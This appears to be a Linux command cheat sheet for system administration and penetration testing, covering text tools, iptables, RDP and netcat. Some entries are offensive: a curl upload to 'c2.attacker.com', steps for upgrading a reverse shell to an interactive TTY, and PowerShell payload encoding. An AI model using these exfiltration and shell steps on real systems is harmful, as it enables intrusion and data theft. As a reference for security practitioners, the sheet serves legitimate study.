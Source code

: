 # Useful commands in Linux

## comm

* Substitute if not satisfied with diff[^1]
```bash
comm <-123> file1 file2 2>/dev/null
```

## read
* Used for pausing mid loop and possibly asking for user input
* Usually seen with `<Press any key to continue>`
```bash
# Command below will pause the bash script till <space> is pressed
read -s -d ' '
```

## Recursive sed
* In case you want to change values in a lot of text files
* One of the many ways [^2]
* Change the 4 values between `< >`
```bash
find <DIRECTORY_TO_FIND_FROM> \( -type d -name <DIRECTORY_YOU_WANT_TO_AVOID> -prune \) -o -type f -print0 | xargs -0 sed -i 's/<ORIGINAL_TEXT>/<NEW_TEXT>/g'
```

## shred
* Delete files
* This cannot easily although still possible to be recovered
```bash
shred -u <file_to_delete>
```

## testdisk
* Recover accidentally deleted file (i.e. using `#!bash rm`)[^3]
```bash
sudo testdisk
# View step 8 of the source. Select the option "Undelete" might not be there, choose "List"
```

## ps (Wide output)
* Everybody knows `#!bash ps aux`
* this however generates a limited output
* to show the whole command, do: (add or lessen 'w' if needed)
```bash
ps auxwww
```

## grep
* Asides from the common uses of grep
* to filter out all lines ending in a specific character
    * Use case: filtering out exported URLs which has duplicates where one URL ends in '/' and one without
```bash
echo "aaaaaaa.rar\nbbbbbbbbrar" > /tmp/temp.txt

$ cat /tmp/temp.txt | grep 'rar$'
aaaaaaa.rar
bbbbbbbbrar

#Add '\b' for "word-boundary"
$ cat /tmp/temp.txt | grep '\brar$'
aaaaaaa.rar

#Just add '-v' after 'grep' to "select non-matching lines" / inverse
```

## RDP
* Connecting to a Windows host via RDP
```
 xfreerdp +nego +sec-rdp +sec-tls +sec-nla /v:<hostname/IP>  /d: /u:<username> /p:<password> /size:90%
```
* Compressed RDP for low bandwidth or slow RDP connections
```
# MTU config first
ifconfig mtu 1200 <interface>
ifconfig mtu 1200 tun0

# rdesktop
rdesktop -a 16 -z -r sound:remote -x b -g 1900x1000 -u <USERNAME> -p <PASSWORD> 192.168.1.5
rdesktop -d <domain> -u <username> -p <password or '-' for prompt> -a 16 -P -z -E -T <TAG-WindowName> <RDPHOST_IP>
rdesktop -d company.local -u administrator -p P@ssw0rd -a 16 -P -z -E -T COMPANY-DC3 10.10.10.100
```

## iptables [^4][^5]
```
# View rules
sudo iptables -L --line-numbers

# Add rule
sudo iptables -A INPUT -p tcp --dport 80 -j ACCEPT
sudo iptables -A INPUT -p tcp -s 192.168.1.0/24 --dport 22 -j ACCEPT

# Drop from everybody else
sudo iptables -A INPUT -p tcp --dport 22 -j DROP

# Save rules
sudo /sbin/iptables–save

# Delete Rule
sudo iptables -D INPUT <line_num>

# Example:
# Only allow SSH connection from 192.168.1.0/24
sudo iptables -A INPUT -p tcp -s 192.168.1.0/24 --dport 22 -j ACCEPT
sudo iptables -A INPUT -p tcp --dport 22 -j DROP
```

## Mirror a website
```
wget --mirror --convert-links --adjust-extension --page-requisites --wait=1 -o wget-mirror.log --no-parent https://example.org
```

## Upload files via Curl
* Combine with [Simple HTTP(s) Servers](../Infrastructure_Setup/Simple_Python_Go_Packages.html#projectdiscovery-simplehttpserver)
```
curl -k --user 'root:toor' --upload-file file.zip https://127.0.0.1:8000/file.zip
curl -k --user 'root:haxorz' --upload-file file.zip https://c2.attacker.com:443/file.zip
```

## Upgrade Reverse shell to fully interactive TTY[^6]
* In reverse shell 
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
<Ctrl-Z>
```
* In Attacker console
```bash
stty raw -echo
fg
```
* In reverse shell
```bash
reset
export SHELL=bash
export TERM=xterm-256color
stty rows <num> columns <cols>
```

## Create a user
```bash
# Create a user
useradd user -U -s /bin/bash
# Create a sudo user
useradd user -G sudo -U -s /bin/bash
```

## Transfer files using nc (netcat)[^7]
* Basic
```bash
# Receiving
nc -l -p 9999 > received_file.txt
# Sending
nc 192.168.0.1 9999 < received_file.txt
```
* With compression
```bash
# Receiving
nc -l -p 9999 | xz -dc | tar xvf -
# Sending
tar cvf - . | xz -c | nc 192.168.0.1 9999
```

## Base64 encode
* You could use this for encoding powershell one-liners
```bash
iconv -f ASCII -t UTF-16LE powershell_payload.txt | base64 | tr -d "\n"
```

[^1]: [Stack Overflow](https://stackoverflow.com/questions/3724786/how-to-diff-two-file-lists-and-ignoring-place-in-list)
[^2]: [StackOverflow](https://stackoverflow.com/questions/1583219/how-to-do-a-recursive-find-replace-of-a-string-with-awk-or-sed)
[^3]: [It's FOSS](https://itsfoss.com/recover-deleted-files-linux/)
[^4]: [Fedora Project](https://docs.fedoraproject.org/en-US/quick-docs/how-to-edit-iptables-rules/)
[^5]: [Phoenixnap](https://phoenixnap.com/kb/iptables-tutorial-linux-firewall)
[^6]: [6c2e6e2e - Spawning interactive reverse shells with TTY](https://medium.com/@6c2e6e2e/spawning-interactive-reverse-shells-with-tty-a7e50c44940e)
[^7]: [Tutorials Technology - How to transfer files over the network using Netcat ](https://tutorials.technology/tutorials/How-to-transfer-files-over-the-network-using-Netcat.html)

